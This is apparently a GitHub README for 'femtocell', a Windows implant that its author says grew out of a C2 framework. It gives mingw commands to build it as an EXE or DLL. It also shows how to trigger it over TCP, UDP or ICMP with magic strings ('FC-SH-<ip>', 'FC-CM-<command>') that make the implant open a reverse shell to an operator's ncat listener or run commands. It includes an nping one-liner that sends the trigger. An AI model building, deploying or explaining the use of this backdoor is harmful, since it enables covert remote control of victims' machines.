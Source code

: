 # femtocell
This was supposed to be a "Modular C2 Framework"
Now it's not.
It's way cooler now though. Trust me.

## Building
Executable: `x86_64-w64-mingw32-gcc *.c -lws2_32 -o femtocell.exe`

DLL: `x86_64-w64-mingw32-gcc *.c -D _DLL -shared -lws2_32 -o femtocell.dll`

`-D DEBUG` set for debugging.

## Usage
### TCP
`ncat -lvp 2628`

`ncat -p 6006 <ip> <port>`

`> FC-SH-<remoteip>`

`> FC-CM-<command>`

### UDP
`ncat -lvp 2628`

`ncat -p 6006 <ip> <port>`

`> FC-SH-<remoteip>`

`> FC-CM-<command>`

### ICMP
`sudo nping 192.168.183.152 --icmp --data-string "FC-SH-192.168.10.162 " -c 1 --icmp-code 1`

**include a character after the IP address**
